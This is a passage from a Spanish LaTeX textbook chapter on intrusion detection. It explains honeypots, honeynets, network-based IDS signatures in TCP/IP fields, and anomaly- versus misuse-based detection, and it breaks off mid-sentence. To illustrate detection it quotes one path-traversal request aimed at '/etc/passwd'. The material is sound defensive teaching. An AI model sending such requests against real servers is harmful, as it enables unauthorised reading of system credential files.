subentorno en el sistema que aparente de forma muy realista ser algo vulnerable,
sino que su `decepci\'on' es bastante m\'as elemental: se limitan a presentar
un aspecto (quiz\'as deber\'{\i}amos llamarle {\it interfaz}) que parece 
vulnerable, pero que cualquier aprendiz de pirata puede descubrir sin problemas 
que no es m\'as que un enga\~no. >D\'onde est\'a entonces la funci\'on de estos
sistemas, denominados en ocasiones `detectores de pruebas'? Por norma, su tarea 
es recopilar informaci\'on del atacante y del
ataque en s\'{\i}; por ejemplo, ya que antes hemos hablado de {\it FakeBO}, 
podemos imaginar un programa que se encargue de escuchar en el puerto 31337 de
nuestro sistema -- donde lo hace el troyano real -- y, cada vez que alguien 
acceda a \'el, guardar
la hora, la direcci\'on origen, y los datos enviados por el atacante. En 
realidad, no es una simulaci\'on que pueda enga\~nar ni al pirata m\'as novato,
pero hemos logrado el objetivo de cualquier sistema de detecci\'on de intrusos: 
registrar el ataque; adem\'as, tambi\'en se puede considerar un {\it honeypot},
ya que simula un entorno vulnerable, aunque s\'olo logre enga\~nar a nuestro
atacante durante unos segundos. De cualquier forma, es necesario indicar que
en algunas publicaciones (como \cite{kn:gra00}) se diferencia a los sistemas de 
decepci\'on `completos'
de estos mecanismos de enga\~no simple, aunque a todos se les englobe dentro
del conjunto denominado {\it honeypots}.\\
\\Hemos revisado en este punto las ideas m\'as generales de los sistemas de
detecci\'on de intrusos basados en {\it host}; aunque hoy en d\'{\i}a los que 
vamos a describir a continuaci\'on, los basados en red, son con diferencia los 
m\'as utilizados, como veremos m\'as adelante todos son igualmente 
ne\-ce\-sa\-rios
si deseamos crear un esquema de detecci\'on con la m\'axima efectividad. Se
trata de niveles de protecci\'on diferentes pero que tienen un mismo objetivo:
alertar de actividades sospechosas y, en algunos casos, proporcionar una 
respuesta autom\'atica a las mismas.
\section{IDSes basados en red}
Los sistemas de detecci\'on de intrusos basados en red ({\it network--based
IDS}) son aquellos capaces de detectar ataques contra diferentes sistemas de 
una misma red (en concreto, de un mismo dominio de colisi\'on), aunque 
generalmente se ejecuten en uno solo de los {\it hosts} de esa red. Para lograr
su objetivo, al menos uno de los interfaces de red de esta m\'aquina sensor 
trabaja en modo promiscuo, capturando y analizando todas las tramas que pasan 
por \'el en busca de patrones indicativos de un ataque.\\
\\>Cu\'ales pueden ser estos `patrones identificativos de un ataque' a los que
estamos haciendo re\-fe\-ren\-cia? Casi cualquiera de los diferentes campos de 
una trama de red {\sc tcp/ip} (podemos consultar \cite{kn:ste94}, 
\cite{kn:com95} o \cite{kn:tan96} para conocer en profundidad el significado y 
la utilidad de cada uno de ellos) puede tener un valor que, con mayor o menor 
probabilidad, represente un ataque real; los casos m\'as habituales incluyen:
\begin{itemize}
\item Campos de fragmentaci\'on.\\
Una cabecera {\sc ip} contiene dieciseis {\it bits} reservados a informaci\'on 
sobre el nivel de fragmentaci\'on del datagrama; de ellos, uno no se utiliza y 
trece indican el desplazamiento del fragmento que transportan. Los otros dos 
{\it bits} indican o bien que el paquete no ha de ser fragmentado por un {\it
router} intermedio ({\sc df}, {\it Don\'{}t Fragment}) o bien que el paquete ha 
sido fragmentado y no es el \'ultimo que se va a recibir ({\sc mf}, {\it More
Fragments}). Valores incorrectos de par\'ametros de fragmentaci\'on de los 
datagramas se han venido utilizando t\'{\i}picamente para causar importantes 
negaciones de servicio a los sistemas y, desde hace tambi\'en un tiempo incluso 
para obtener la versi\'on del operativo que se ejecuta en un determinado {\it 
host} (\cite{kn:fyo98}); por ejemplo, >qu\'e le suceder\'{\i}a al 
subsistema de red implantado en el n\'ucleo de una m\'aquina Unix si nunca 
recibe una trama con el {\it bit} {\sc mf} reseteado, indicando que es el 
\'ultimo de un paquete? >se quedar\'{\i}a permanentemente esper\'andola? >y 
si recibe uno que en teor\'{\i}a no est\'a fragmentado pero se le indica que no
es el \'ultimo que va a recibir? >c\'omo responder\'{\i}a el n\'ucleo del 
operativo en este caso? Como vemos, si en nuestras m\'aquinas observamos 
ciertas combinaciones de {\it bits} relacionados con la fragmentaci\'on 
realmente tenemos motivos para -- cuanto menos -- sospechar que alguien trata 
de atacarnos.
\item Direcci\'on origen y destino.\\
Las direcciones de la m\'aquina que env\'{\i}a un paquete y la de la que lo va
a recibir tambi\'en son campos interesantes de cara a detectar intrusiones en
nuestros sistemas o en nuestra red. No tenemos m\'as que pensar el tr\'afico 
proveniente de nuestra DMZ (y que no se trate de la t\'{\i}pica respuesta ante 
una petici\'on como las que se generan al visitar p\'aginas {\it web}, por 
poner un ejemplo) que tenga como destino nuestra red protegida: es muy posible 
que esos paquetes constituyan un intento de violaci\'on de nuestra 
pol\'{\i}tica de seguridad. Otros ejemplos cl\'asicos son las peticiones 
originadas desde Internet y que tienen como destino m\'aquinas de nuestra 
organizaci\'on que no est\'an ofreciendo servicios directos al exterior, como 
un servidor de bases de datos cuyo acceso est\'a restringido a sistemas de 
nuestra red.
\item Puerto origen y destino.\\
Los puertos origen y destino (especialmente este \'ultimo) son un excelente
indicativo de actividades sospechosas en nuestra red. Aparte de los intentos de
acceso no autorizado a servicios de nuestros sistemas, pueden detectar 
actividades que tambi\'en supondr\'an {\it a priori} violaciones de nuestras 
pol\'{\i}ticas de seguridad, como la existencia de troyanos, ciertos tipos de
barridos de puertos, o la presencia de servidores no autorizados dentro de 
nuestra red.
\item {\it Flags} {\sc tcp}.\\
Uno de los campos de una cabecera {\sc tcp} contiene seis {\it bits} ({\sc 
urg}, {\sc ack}, {\sc psh}, {\sc rst}, {\sc syn} y {\sc fin}), cada uno de 
ellos con una finalidad diferente (por ejemplo, el {\it bit} {\sc syn} es 
utilizado para establecer una nueva conexi\'on, mientras que {\sc fin} hace 
justo lo contrario: liberarla). Evidentemente el valor de cada uno de estos 
{\it bits} ser\'a 0 o 1, lo cual de forma aislada no suele decir mucho (ni 
bueno ni malo) de su emisor; no obstante, ciertas combinaciones de valores 
suelen ser bastante sospechosas: por ejemplo, una trama con los dos {\it bits} 
de los que hemos hablado -- {\sc syn} y {\sc fin} -- activados 
simult\'aneamente ser\'{\i}a indicativa de una conexi\'on que trata de abrirse 
y cerrarse al mismo tiempo. Para hacernos una idea de la importancia de estos
{\it bits} de control, no conviene olvidar que uno de los problemas de
seguridad m\'as conocidos de los \'ultimos a\~nos sobre plataformas Windows --
de los muchos que han tenido estos entornos -- estaba fundamentado b\'asicamente
en el manejo de paquetes {\sc oob} ({\it Out Of Band}): tramas con el {\it bit} 
{\sc urg} activado.
\item Campo de datos.\\
Seguramente, el campo de datos de un paquete que circula por la red es 
donde m\'as probabilidades tenemos de localizar un ataque contra nuestros 
sistemas; esto es debido a que con toda probabilidad nuestro cortafuegos
corporativo detendr\'a tramas cuya cabecera sea `sospechosa' (por ejemplo, 
aquellas cuyo origen no est\'e autorizado a alcanzar su destino o con campos
incorrectos), pero rara vez un {\it firewall} se parar\'a a analizar el 
contenido de los datos transportados en la trama. Por ejemplo, una petici\'on 
como {\tt `GET ../../../etc/passwd HTTP/1.0'} contra el puerto 80 del servidor 
{\it web} de nuestra empresa no se detendr\'a en el cortafuegos, pero muy
probablemente se trata de un intento de intrusi\'on contra nuestros sistemas.
\end{itemize}
Acabamos de ver {\bf s\'olo algunos} ejemplos de campos de una trama {\sc 
tcp/ip} que, 
al presentar determinados valores, pueden ser indicativos de un ataque; sin 
embargo, no todo es tan sencillo como comprobar ciertos par\'ametros de cada
paquete que circula por uno de nuestros segmentos. Tambi\'en es posible y 
necesario que un detector de intrusos basado en red sea capaz de notificar 
otros ataques que no se pueden apreciar en una \'unica trama; uno de estos
ataques es la presencia de peticiones que, aunque por s\'{\i} mismas no sean 
sospechosas, por su repetici\'on en un intervalo de tiempo m\'as o menos 
peque\~no puedan ser indicativas de un ataque (por ejemplo, barridos de puertos 
horizontales o verticales). Otros ataques dif\'{\i}ciles de detectar analizando
tramas de forma independiente son las negaciones de servicio distribuidas 
(DDoS, {\it Distributed Denial of Service}), justamente por el gran n\'umero de
or\'{\i}genes que el ataque tiene por definici\'on.\\
\\Seg\'un lo expuesto hasta ahora en este punto, puede parecer que los sistemas
de detecci\'on de intrusos basados en red funcionan \'unicamente mediante la
detecci\'on de patrones; realmente, esto no es as\'{\i}: en principio, un 
detector de intrusos basado en red puede estar basado en la detecci\'on de 
anomal\'{\i}as, igual que lo puede estar uno basado en m\'aquinas. No obstante,
esta aproximaci\'on es minoritaria; aunque una intrusi\'on generar\'a 
probablemente comportamientos anormales (por ejemplo, un tr\'afico excesivo 
entre el sistema atacante y el atacado) susceptibles de ser detectados y 
eliminados, con demasiada frecuencia estos sistemas no detectar\'an la 
intrusi\'on hasta que la misma se encuentre en un estado avanzado. Este problema
hace que la mayor parte de IDSes basados en red que existen actualmente 
funcionen siguiendo modelos de detecci\'on de usos indebidos.\\
\\Para finalizar este punto dedicado a los sistemas de detecci\'on de intrusos 
basados en red es necesario hablar de las {\it honeynets} (\cite{kn:spi01}) -- 
literalmente, `redes de miel' --. Se trata de un concepto muy parecido al de
los {\it honeypots}, de los que ya hemos hablado, pero extendido ahora a redes
completas: redes dise\~nadas para ser comprometidas, formadas por sistemas 
reales de todo tipo que, una vez penetrados, permiten capturar y analizar las
acciones que est\'a realizando el atacante para as\'{\i} poder aprender m\'as
sobre aspectos como sus t\'ecnicas o sus objetivos. Realmente, aunque la idea
general sea com\'un, existen dos grandes diferencias de dise\~no entre un 
tarro de miel y una {\it honeynet}: por un lado, esta \'ultima evidentemente es
una red completa que alberga diferentes entornos de trabajo, no se trata de una
\'unica m\'aquina; por otro, los sistemas dentro de esta red son sistemas 
reales, en el sentido de que no simulan ninguna vulnerabilidad, sino que 
ejecutan aplicaciones t\'{\i}picas (bases de datos, sistemas de 
desarrollo\ldots) similares a las que podemos encontrar en cualquier entorno de
trabajo `normal'. El objetivo de una {\it honeynet} no es la decepci\'on, sino 
principalmente conocer los movimientos de un pirata en entornos semireales, de 
forma que aspectos como sus vulnerabilidades o sus configuraciones incorrectas 
se puedan extrapolar a muchos de los sistemas que cualquier empresa posee
en la actualidad; de esta forma podemos prevenir nuevos ataques exitosos contra 
entornos reales.\\
\\En el funcionamiento de una `red de miel' existen dos aspectos fundamentales
y especialmente cr\'{\i}ticos, que son los que introducen la gran cantidad 
trabajo de administraci\'on extra que una {\it ho\-ney\-net} implica para 
cualquier organizaci\'on. Por un lado, tenemos el control del flujo de los 
datos: es {\bf vital} para nuestra seguridad garantizar que una vez que un 
sistema dentro 
de la {\it honeynet} ha sido penetrado, este no se utilice como plataforma de
salto para atacar otras m\'aquinas, ni de nuestra organizaci\'on ni de cualquier
otra; la `red de miel' ha de permanecer perfectamente controlada, y por supuesto
aislada del resto de los segmentos de nuestra organizaci\'on. En segundo lugar,
otro aspecto b\'asico es la captura de datos, la monitorizaci\'on de las
actividades que un atacante lleva a cabo en la {\it honeynet}. Recordemos que 
nuestro objetivo principal era conocer los movimientos de la comunidad pirata
para poder extrapolarlos a sistemas reales, por lo que tambi\'en es muy 
importante para el correcto funcionamiento de una {\it honeynet} una correcta
recogida de datos generados por el atacante: ha de ser capturada toda la 
informaci\'on posible de cada acci\'on, de una forma poco agresiva (esto es, 
sin tener que realizar grandes cambios en cada uno de los sistemas) y por
supuesto sin que el atacante se entere. Adem\'as (muy importante), estos datos 
recogidos {\bf nunca} se
han de mantener dentro del per\'{\i}metro de la {\it honeynet}, ya que si fuera
as\'{\i} cualquier pirata podr\'{\i}a destruirlos con una probabilidad demasiado
elevada.\\
\\El concepto de {\it honeynet} es relativamente nuevo dentro del mundo de la
seguridad y, en concreto, de los sistemas de detecci\'on de intrusos; a pesar de
ello, se trata de una idea muy interesante que presumiblemente va a extenderse
de una forma m\'as o menos r\'apida (no todo lo r\'apida que nos gustar\'{\i}a, 
ya que implantar y explotar una {\it honeynet} no es algo ni trivial, ni mucho
menos r\'apido); cada d\'{\i}a m\'as, las herramientas de seguridad no se
conforman con detectar problemas conocidos, sino que tratan de anticiparse a 
nuevas vulnerabilidades que a\'un no se han publicado pero que pueden estar -- 
y de hecho est\'an -- presentes en multitud de sistemas. Conocer cuanto antes 
cualquier avance de la comunidad {\it underground} es algo vital si queremos 
lograr este objetivo.\\
\\Como antes hemos comentado, los sistemas de detecci\'on de intrusos basados en
red, de los que hemos hablado a lo largo de este punto, son con diferencia los
m\'as utilizados actualmente en sistemas en explotaci\'on; no obstante, como
casi cualquier herramienta relacionada con la seguridad, estos sistemas no son
ninguna panacea, y su implantaci\'on ha de verse complementada con una correcta
configuraci\'on de elementos como nuestro cortafuegos corporativo o, por 
supuesto, los sistemas de detecci\'on basados en {\it host}. Veremos m\'as 
adelante, en este mismo cap\'{\i}tulo, que ambos tipos de IDSes son igualmente
necesarios en nuestro entorno de trabajo.
\section{Detecci\'on de anomal\'{\i}as}
Desde que en 1980 James P. Anderson propusiera la detecci\'on de anomal\'{\i}as
como un m\'etodo v\'alido para detectar intrusiones en sistemas inform\'aticos
(\cite{kn:and80}), la l\'{\i}nea de investigaci\'on m\'as activa (esto es, la 
m\'as estudiada, pero no por ello la m\'as extendida en entornos reales) es 
la de\-no\-mi\-na\-da {\it Anomaly Detection IDS}, IDSes basados en la 
detecci\'on de a\-no\-ma\-l\'{\i}as. La idea es {\it a priori} muy interesante: 
estos
modelos de detecci\'on conocen lo que es `normal' en nuestra red o nuestras
m\'aquinas a lo largo del tiempo, desarrollando y actualizando conjuntos de
patrones contra los que comparar los eventos que se producen en los sistemas. Si
uno de esos eventos (por ejemplo, una trama procedente de una m\'aquina 
desconocida) se sale del conjunto de normalidad, autom\'aticamente se cataloga
como sospechoso.\\
\\Los IDSes basados en detecci\'on de anomal\'{\i}as se basan en la premisa de
que cualquier ataque o intento de ataque implica un uso anormal de los sistemas
(\cite{kn:ko96}, \cite{kn:ks94}\ldots). Pero,
>c\'omo puede un sistema conocer lo que es y lo que no es `normal' en nuestro
entorno de trabajo? Para conseguirlo, existen dos grandes aproximaciones 
(\cite{kn:bus99}): o es el sistema el que es capaz de aprenderlo por s\'{\i}
mismo (bas\'andose por ejemplo en el comportamiento de los usuarios, de sus
procesos, del tr\'afico de nuestra red\ldots) o bien se le especifica al sistema
dicho comportamiento mediante un conjunto de reglas. La primera de estas 
aproximaciones utiliza b\'asicamente
m\'etodos estad\'{\i}sticos (medias, varianzas\ldots), aunque tambi\'en 
existen modelos en los que se aplican algoritmos de aprendizaje autom\'atico; la
segunda aproximaci\'on consiste en especificar mediante un conjunto de reglas
los perfiles de comportamiento habitual bas\'andose en determinados 
par\'ametros de los sistemas (con la dificultad a\~nadida de decidir cu\'ales de
esos par\'ametros que con mayor precisi\'on delimitan los comportamientos
intrusivos).\\
\\En el primero de los casos (el basado en m\'etodos estad\'{\i}sticos), el
detector observa las actividades de los elementos del sistema, activos -- 
sujetos --, pasivos -- objetos -- o ambos, y genera para cada uno de ellos un
perfil que define su comportamiento; dicho perfil es almacenado en el sistema,
y se actualiza con determinada frecuencia envejeciendo la informaci\'on m\'as 
antigua y priorizando la m\'as fresca. El comportamiento del usuario en un 
determinado momento se guarda temporalmente en otro perfil, denominado `perfil
actual' ({\it current profile}), y a intervalos regulares se compara con el
almacenado previamente en busca de desviaciones que puedan indicar una 
anomal\'{\i}a.\\
\\En \cite{kn:jv93} se definen diferentes tipos de datos o medidas que pueden
ser \'utiles en la elaboraci\'on de estos perfiles:
\begin{enumerate}
\item Intensidad de la actividad. Reflejan el ratio de progreso de la actividad
en el sistema, para lo cual recogen datos a intervalos muy peque\~nos -- 
t\'{\i}picamente entre un minuto y una hora --. Estas medidas
detectan r\'afagas de comportamiento (por ejemplo, una excesiva generaci\'on de 
peticiones de entrada/salida en un cierto intervalo) que en espacios de tiempo
m\'as amplios no podr\'{\i}an ser detectadas.
\item Num\'ericas. Se trata de medidas de la actividad cuyo resultado se puede
representar en forma de valor num\'erico, como el n\'umero de ficheros 
le\'{\i}dos por cierto usuario en una sesi\'on o la cantidad de veces que ese
usuario se ha equivocado al teclear su contrase\~na de acceso al sistema.
\item Categ\'oricas. Las medidas categ\'oricas son aquellas cuyo resultado es
una categor\'{\i}a individual, y miden la frecuencia relativa o la 
distribuci\'on de una actividad determinada con respecto a otras actividades o
categor\'{\i}as; por ejemplo, cual es la 
relaci\'on entre la frecuencia de acceso a un determinado directorio del 
sistema en comparaci\'on con la de acceso a otro. Seguramente la palabra
`categor\'{\i}a' no es la m\'as afortunada (por lo menos, no la m\'as clara),
ya que bajo este t\'ermino se pueden englobar tanto a objetos (por ejemplo, 
ficheros) como a eventos (por ejemplo, llamadas a la funci\'on {\tt crypt()}) 
del sistema; esta definici\'on gen\'erica puede resultar m\'as sencilla si 
distinguimos entre 
categor\'{\i}as globales e individuales: en castellano plano, podemos entender
las categor\'{\i}as globales como acciones muy gen\'ericas dentro de un entorno,
mientras que las categor\'{\i}as individuales ser\'{\i}an la particularizaci\'on
para un elemento determinado del sistema. As\'{\i}, una categor\'{\i}a global
puede ser la formada por el conjunto de accesos remotos a la m\'aquina, 
mientras que una individual ser\'{\i}a la formada por los accesos desde una
determinada ubicaci\'on f\'{\i}sica.
\item Distribuci\'on de registros de auditor\'{\i}a. Esta medida analiza la
distribuci\'on de las actividades generadas en un pasado reciente bas\'andose
en los {\it logs} generados por las mismas; dicho an\'alisis se realiza de forma
ponderada, teniendo m\'as peso las actividades m\'as recientes, y es comparado
con un perfil de actividades `habituales' previamente almacenado, de forma
que permite detectar si en un pasado reciente se han generado eventos
inusuales.
\end{enumerate}
La segunda aproximaci\'on a la que antes hemos hecho referencia era la 
consistente en indicar me\-dian\-te un conjunto de reglas el comportamiento 
habitual
del sistema; suele ser denominada detecci\'on de anomal\'{\i}as basada en 
especificaciones ({\it specification--based anomaly detection}), y fu\'e 
propuesta y desarrollada inicialmente por Calvin Cheuk Wang Ko y otros 
investigadores de la Universidad de California en Davis, durante la segunda 
mitad de los noventa (\cite{kn:ko96}, \cite{kn:ko97}\ldots). La idea en la que
se sustentan los sistemas de detecci\'on de anomal\'{\i}as basados en 
especificaciones es que se puede describir el comportamiento `deseable' 
(entendiendo por `deseable' el comportamiento `normal') de cualquier programa
cuya seguridad sea cr\'{\i}tica; esta descripci\'on se realiza en base a una
especificaci\'on de seguridad mediante gram\'aticas, y se considera una 
violaci\'on  de la seguridad 
-- al menos en principio -- a las ejecuciones de dichos programas que violen su 
respectiva especificaci\'on.\\
\\Para ver m\'as claramente el concepto de la detecci\'on de anomal\'{\i}as
basada en especificaciones, podemos pensar en la ejecuci\'on de un programa que
se puede considerar cr\'{\i}tico, por ser privilegiado: {\tt /bin/passwd}. Si
conseguimos diferenciar las diferentes ejecuciones de esta orden que se pueden
considerar `habituales' (por ejemplo, cuando un usuario cambia su contrase\~na
sin problemas, cuando se equivoca, cuando el sistema no le deja cambiarla por
los motivos t\'{\i}picos -- es d\'ebil, hace poco que la cambi\'o\ldots --), 
podr\'{\i}amos especificar formalmente cada una de estas secuencias de 
operaci\'on. De esta forma, cada vez que un usuario invoque a {\tt /bin/passwd},
el sistema de detecci\'on monitorizar\'a las operaciones que esa llamada genere,
y considerar\'a una intrusi\'on a cualquiera que no sea `habitual'.\\
\\La idea de los sistemas de detecci\'on de intrusos basados en la detecci\'on 
de anomal\'{\i}as es realmente atractiva; no obstante, existen numerosos 
problemas a los que estos mecanismos tratan de hacer frente. En primer lugar 
podemos pararnos a pensar en las dificultades que existen a la hora de 
`aprender' o simplemente especificar lo habitual:
si alguien piensa que por ejemplo obtener un patr\'on de tr\'afico `normal' en 
una red es f\'acil, se equivoca; quiz\'as establecer un conjunto de procesos
habituales en una \'unica m\'aquina resulte menos complicado, pero tampoco se 
trata de una tarea trivial. Adem\'as, conforme aumentan las dimensiones de los
sistemas (redes con un gran n\'umero de m\'aquinas interconectadas, equipos con
miles de usuarios\ldots) estos se hacen cada vez m\'as aleatorios e 
impredecibles.\\
\\Otro gran problema de los sistemas basados en detecci\'on de anomal\'{\i}as
radica en la pol\'{\i}tica de aprendizaje que \'estos sigan (\cite{kn:ran98}); 
si se trata de 
esquemas donde el aprendizaje es r\'apido, un intruso puede generar eventos 
para conseguir un modelo distorsionado de lo `normal' antes de que el 
responsable -- humano -- de los sistemas se percate de ello, de forma que el 
IDS no llegue a detectar un ataque porque lo considera algo `habitual'. Si por
el contrario el aprendizaje es lento, el IDS considerar\'a cualquier evento que
se aleje m\'{\i}nimamente de sus patrones como algo an\'omalo, generando un
gran n\'umero de falsos positivos (falsas alarmas), que a la larga har\'an que
los responsables de los sistemas ignoren cualquier informaci\'on proveniente del
IDS, con los evidentes riesgos que esto implica.
\section{Detecci\'on de usos indebidos}
Dentro de la clasificaci\'on de los sistemas de detecci\'on de intrusos en
base a su forma de actuar, la segunda gran familia de modelos es la formada por
los basados en la detecci\'on de usos indebidos. Este esquema se basa en 
especificar de una forma m\'as o menos formal las potenciales intrusiones que 
amenazan a un sistema y simplemente esperar a que alguna de ellas ocurra; para
conseguirlo existen cuatro grandes aproximaciones (\cite{kn:ko96}): los 
sistemas expertos, los an\'alisis de transici\'on entre estados, las reglas de
comparaci\'on y emparejamiento de patrones ({\it pattern matching}) y la 
detecci\'on basada en modelos.\\
\\Los primeros sistemas de detecci\'on de usos indebidos, como NIDES 
(\cite{kn:lu92}), se basaban en los sistemas expertos para realizar su trabajo; 
en ellos las intrusiones se codifican como reglas de la base de conocimiento 
del sistema experto, de la forma gen\'erica {\it if--then} ({\it if} {\sc 
condici\'on} {\it then} {\sc acci\'on}). Cada una de estas reglas
puede detectar eventos \'unicos o secuencias de eventos que denotan una 
potencial intrusi\'on, y se basan en el an\'alisis -- generalmente en tiempo 
real -- de los registros de auditor\'{\i}a proporcionados por cualquier sistema
Unix: esta es una de las principales ventajas de los sistemas expertos, el hecho
de que el mecanismo de registro dentro de Unix venga proporcionado `de serie',
ya que de esta forma el sistema de detecci\'on trabaja siempre por encima del
espacio del sistema operativo, algo que facilita enormemente su integraci\'on 
dentro de diferentes clones de Unix.\\
\\Podemos pensar en un caso real que nos ayude a comprender el funcionamiento de
los sistemas expertos a la hora de detectar intrusiones; el t\'{\i}pico 
ejemplo es la detecci\'on de un mismo usuario conectado simult\'aneamente desde
dos direcciones diferentes. Cada vez que un usuario se autentica correctamente
en el sistema, cualquier Unix genera una l\'{\i}nea de registro que se guarda 
en el fichero de {\it log} correspondiente; as\'{\i}, al conectar a un servidor
Linux Slackware v\'{\i}a {\sc ssh}, se registra el evento de esta forma:
\begin{center}
\begin{verbatim}
May 27 03:08:27 rosita sshd[5562]: User toni, coming from anita, authenticated.
\end{verbatim}
\end{center}
Al leer este registro, un sistema experto comprobar\'{\i}a si el usuario {\tt
toni} ya tiene una sesi\'on abierta desde una m\'aquina diferente de {\tt 
anita}; si esta condici\'on se cumple (recordemos la forma gen\'erica de las
reglas del sistema experto, {\it if--then}) se realizar\'{\i}a la acci\'on 
definida en la regla correspondiente, por norma generar una alarma dirigida al
responsable de seguridad del sistema.\\
\\La segunda implementaci\'on de los sistemas de detecci\'on de usos indebidos 
era la basada en los an\'alisis de transici\'on entre estados (\cite{kn:por92});
bajo este esquema, una intrusi\'on se puede contemplar como una secuencia de
eventos que conducen al atacante desde un conjunto de estados inicial a un 
estado determinado, representando este \'ultimo una violaci\'on
consumada de nuestra seguridad. Cada uno de esos estados no es m\'as que una
imagen de diferentes par\'ametros del sistema en un momento determinado, siendo
el estado inicial el inmediatamente posterior al inicio de la intrusi\'on, y el
\'ultimo de ellos el resultante de la completitud del ataque; la idea es que 
si conseguimos identificar los estados intermedios entre ambos, seremos capaces
de detener la intrusi\'on antes de que se haga efectiva.\\
\\Sin duda el sistema de detecci\'on basado en el an\'alisis de transici\'on
entre estados m\'as conocido es {\sc ustat} (\cite{kn:il93}), basado en {\sc 
stat} (\cite{kn:por92a}). Este modelo fu\'e desarrollado inicialmente sobre 
SunOS 4.1.1 (en la actualidad est\'a portado a Solaris 2), y utiliza los 
registros de auditor\'{\i}a ge\-ne\-ra\-dos por el {\it C2 Basic Security 
Module} de este operativo. En {\sc ustat}, estos registros del {\sc c2-bsm} son 
transformados a otros de la forma {\sc $<$s, a, o$>$}, representando cada uno 
de ellos un evento de la forma {\it `el sujeto S realiza la acci\'on A sobre el 
objeto O'}; a su vez, cada elemento de la terna anterior est\'a formado por
diferentes campos que permiten identificar un\'{\i}vocamente el evento 
representado. El sistema de detecci\'on utiliza adem\'as una base de datos --
realmente, se trata de simples ficheros planos -- formada principalmente por 
dos tablas, una donde se almacenan las descripciones de los diferentes estados 
(SDT, {\it State Description Table}) y otra en la que se almacenan las 
transiciones entre estados que denotan un potencial ataque (SAT, {\it Signature 
Action Table}). Cuando {\sc ustat} registre una sucesi\'on determinada de
eventos que representen un ataque entrar\'a en juego el motor de decisiones, que
emprender\'a la acci\'on que se le haya especificado (desde un simple mensaje
en consola informando de la situaci\'on hasta acciones de respuesta autom\'atica
capaces de interferir en tiempo real con la intrusi\'on).\\
\\La tercera implementaci\'on que hab\'{\i}amos comentado era la basada en el
uso de reglas de comparaci\'on y emparejamiento de patrones o {\it pattern 
matching} (\cite{kn:sg91}, \cite{kn:ks94}); en ella, el 
detector se basa en la premisa de que el sistema llega a un estado comprometido 
cuando recibe como entrada el patr\'on de la intrusi\'on, sin importar el 
estado en que se encuentre en ese momento. Dicho de otra forma, simplemente
especificando patrones que denoten intentos de intrusi\'on el sistema puede
ser capaz de detectar los ataques que sufre, sin importar el estado inicial en
que est\'e cuando se produzca dicha detecci\'on, lo cual suele representar una
ventaja con respecto a otros modelos de los que hemos comentado.\\
\\Actualmente muchos de los sistemas de detecci\'on de intrusos m\'as conocidos
(por poner un ejemplo, podemos citar a {\sc snort} o {\it RealSecure}) est\'an
basados en el {\it pattern matching}. Utilizando una base de datos de patrones
que denotan ataques, estos programas se dedican a examinar todo el tr\'afico 
que ven en su segmento de red y a comparar ciertas propiedades de cada trama
observada con las registradas en su base de datos como potenciales ataques; si
alguna de las tramas empareja con un patr\'on sospechoso, autom\'aticamente se
genera una alarma en el registro del sistema. En el punto \ref{snort} 
hablaremos con m\'as detalle del funcionamiento de {\sc snort}, uno de los
sistemas de detecci\'on de intrusos basados en red m\'as utilizado en entornos
con requisitos de seguridad media.\\
\\Por \'ultimo, tenemos que hablar de los sistemas de detecci\'on de intrusos
basados en modelos (\cite{kn:gl91}); se trata de una aproximaci\'on 
conceptualmente muy similar a la basada en la transici\'on entre estados, en el 
sentido que contempla los ataques como un conjunto de estados y objetivos, pero 
ahora se representa a los mismos como escenarios en lugar de hacerlo como 
transiciones entre estados. En este caso se combina la 
detecci\'on de usos indebidos con una deducci\'on o un ra\-zo\-na\-mien\-to que 
concluye la existencia o inexistencia de una intrusi\'on; para ello, el sistema
utiliza una base de datos de escenarios de ataques, cada uno de los cuales 
est\'a formado por una secuencia de eventos que conforman el ataque. En cada
momento existe un subconjunto de esos escenarios, denominado {\it de escenarios
activos}, que representa los ataques que se pueden estar presentando en el 
entorno; un proceso denominado {\it anticipador} analiza los registros de
auditor\'{\i}a generados por el sistema y obtiene los eventos a verificar en
dichos registros para determinar si la intrusi\'on se est\'a o no produciendo
(realmente, al ser esos registros dependientes de cada sistema Unix, el 
anticipador pasa su informaci\'on a otro proceso denominado {\it planner}, que
los traduce al formato de auditor\'{\i}a utilizado en cada sistema). El 
anticipador tambi\'en actualiza constantemente el conjunto de es\-ce\-na\-rios 
activos, de manera que este estar\'a siempre formado por los 
escenarios que representan ataques posibles en un determinado momento y no por 
la base de datos completa.\\
\\Hasta hace poco tiempo no exist\'{\i}an sistemas de detecci\'on de intrusos 
basados en modelos funcionando en sistemas reales (\cite{kn:ku95}), por lo que 
era dif\'{\i}cil determinar aspectos como su eficiencia a la hora de detectar 
ataques. En 1998 se present\'o {\sc nstat} (\cite{kn:ke98}), una extensi\'on de
{\sc ustat} (del cual hemos hablado antes) a entornos distribuidos y redes de
computadores, y en el que se combina el an\'alisis de transici\'on entre 
estados con la detecci\'on de intrusos basada en modelos. A pesar de todo, este
modelo es el menos utilizado a la hora de detectar ataques y efectuar respuestas
autom\'aticas ante los mismos, especialmente si lo comparamos con los basados en
la comparaci\'on y emparejamiento de patrones.\\
\\Los IDSes basados en la detecci\'on de usos indebidos son en principio m\'as
robustos que los basados en la detecci\'on de anomal\'{\i}as: al conocer la
forma de los ataques, es te\'oricamente extra\~no que generen falsos positivos 
(a no ser que se trate de un evento autorizado pero muy similar al patr\'on de 
un ataque); es necesario recalcar el matiz `te\'oricamente', porque como 
veremos m\'as adelante, la generaci\'on de falsos positivos es un problema a la
hora de implantar cualquier sistema de detecci\'on. No obstante, en este mismo 
hecho radica su debilidad: s\'olo son 
capaces de detectar lo que conocen, de forma que si alguien nos lanza un ataque
desconocido para el IDS \'este no nos notificar\'a ning\'un problema; como ya
dijimos, es algo similar a los programas antivirus, y de igual manera que cada
cierto tiempo es conveniente (en MS-DOS y derivados) actualizar la versi\'on 
del antivirus usado, tambi\'en es conveniente mantener al d\'{\i}a la base de 
datos de los IDSes basados en detecci\'on de usos indebidos. A\'un as\'{\i},
seremos vulnerables a nuevos ataques.\\
\\Otro grave problema de los IDSes basados en la detecci\'on de usos indebidos
es la incapacidad para detectar patrones de ataque convenientemente camuflados.
Volviendo al ejemplo de los antivirus, pensemos en un antivirus que base su
funcionamiento en la b\'usqueda de cadenas virales: lo que b\'asicamente har\'a
ese programa ser\'a buscar cadenas de c\'odigo hexadecimal pertenecientes a 
determinados virus en cada uno de los archivos a analizar, de forma que si 
encuentra alguna de esas cadenas el {\it software} asumir\'a que el fichero
est\'a contaminado. Y de la misma forma que un virus puede ocultar su presencia
simplemente cifrando esas cadenas (por ejemplo de forma semialeatoria utilizando
eventos del sistema, como el reloj), un atacante puede evitar al sistema de
